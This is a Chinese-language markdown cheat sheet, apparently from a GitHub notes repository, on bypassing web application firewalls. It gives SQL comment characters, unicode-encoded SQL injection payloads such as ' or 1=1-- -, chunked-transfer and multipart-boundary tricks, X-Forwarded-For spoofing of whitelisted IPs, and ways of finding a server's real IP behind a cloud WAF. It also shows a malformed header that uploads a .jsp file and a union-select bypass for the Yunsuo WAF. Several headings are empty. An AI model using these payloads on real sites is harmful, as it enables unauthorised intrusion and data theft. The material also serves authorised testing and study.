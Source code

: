 - [通用WAF](#通用waf)
  - [Bypass](#bypass)
    - [大小写绕过](#大小写绕过)
    - [注释符绕过](#注释符绕过)
    - [编码绕过](#编码绕过)
    - [分块传输](#分块传输)
    - [使用空字节绕过](#使用空字节绕过)
    - [关键字替换绕过](#关键字替换绕过)
    - [http协议覆盖绕过](#http协议覆盖绕过)
    - [白名单IP绕过](#白名单ip绕过)
    - [真实IP绕过](#真实ip绕过)
    - [参数污染](#参数污染)
    - [溢出waf绕过](#溢出waf绕过)
    - [畸形数据包](#畸形数据包)
    - [云锁](#云锁)

# 通用WAF
## Bypass
### 大小写绕过
### 注释符绕过
```
#
-- 
-- - 
--+ 
//
/**/
```
### 编码绕过
1. IBM编码  

可识别IBM编码的场景
```
Nginx, uWSGl-Django-Python2 & 3
Apache-TOMCAT7/8- JVM1.6/1.8-JSP
Apache- PHP5 (mod_ php & FastCGI)
IIS (6, 7.5, 8, 10) on ASP Classic, ASP.NET and PHP7.1- FastCGI
```
2. url双编码
3. hex编码
4. base64
5. unicode
```
o -> %e1%b4%bc
r -> %e1%b4%bf
1 -> %c2%b9
= -> %e2%81%bc
/ -> %ef%bc%8f
- -> %ef%b9%a3
# -> %ef%b9%9f
* -> %ef%b9%a1
' -> %ef%bc%87
" -> %ef%bc%82
| -> %ef%bd%9c


' or 1=1-- -
%ef%bc%87+%e1%b4%bc%e1%b4%bf+%c2%b9%e2%81%bc%c2%b9%ef%b9%a3%ef%b9%a3+%ef%b9%a3

" or 1=1-- -
%ef%bc%82+%e1%b4%bc%e1%b4%bf+%c2%b9%e2%81%bc%c2%b9%ef%b9%a3%ef%b9%a3+%ef%b9%a3

' || 1==1//
%ef%bc%87+%ef%bd%9c%ef%bd%9c+%c2%b9%e2%81%bc%e2%81%bc%c2%b9%ef%bc%8f%ef%bc%8f

" || 1==1//
%ef%bc%82+%ef%bd%9c%ef%bd%9c+%c2%b9%e2%81%bc%e2%81%bc%c2%b9%ef%bc%8f%ef%bc%8f
```  

参考: https://github.com/carlospolop/sqlmap_to_unicode_template
### 分块传输
在HTTP Hader中加入` Transfer-Encoding: chunked`,表示采用分块编码,每个分块包含十六进制的长度值和数据，长度值独占一行，长度不包括它结尾的，也不包括分块数据结尾的，且最后需要用0独占一行表示结束。
利用分块传输来分割敏感关键字.
### 使用空字节绕过
### 关键字替换绕过
### http协议覆盖绕过
1. 多boundary定义
在`Content-type: multipart/form-date`中定义多个`boundary`,导致waf检测范围和上传范围不一致.
1. 
### 白名单IP绕过
针对白名单IP不做检测,而IP从HTTP Header中获取,通过XFF头等进行伪造.
### 真实IP绕过
云WAF通过寻找真实IP绕过WAF
1. 多地点Ping
2. 子域C段
3. 邮件服务器
4. 信息泄露
5. DNS历史解析记录
6. SSRF
通过使用Connection: keep-alive 达到一次传输多个http包.
1. 将两个请求的request放在一起,并且都设置为`Connection: keep-alive`.
### 参数污染
通常在一个请求中,同样名称的参数只会出现一次,但是在 HTTP 协议中是允许同样名称的参数出现多次的,通过对一个参数多次传值来绕过检测.  
常见场景:
![](2021-12-05-17-05-09.png)
1. 对多个相同参数只取其中一个.
2. 对多个相同的参数进行拼接.
### 溢出waf绕过

### 畸形数据包
主要利用WAF和服务器的解析差异,构造一个WAF不能正确识别但服务端可以识别的数据包.
1. 文件上传时,去掉filename的双引号,导致WAF不能正确获取到文件上传的后缀,但服务端却可以得到正确的后缀.
```
Content-Disposition: form-data; name="file"; filename=1.jsp
```
2. 用多参数或者无效数据填充文件内容或者文件名，超出WAF的检测限制范围，从而绕过检测.
### 云锁
1. #后面的默认为注释,不进行检查,`?id=1#' union select user()--+`即可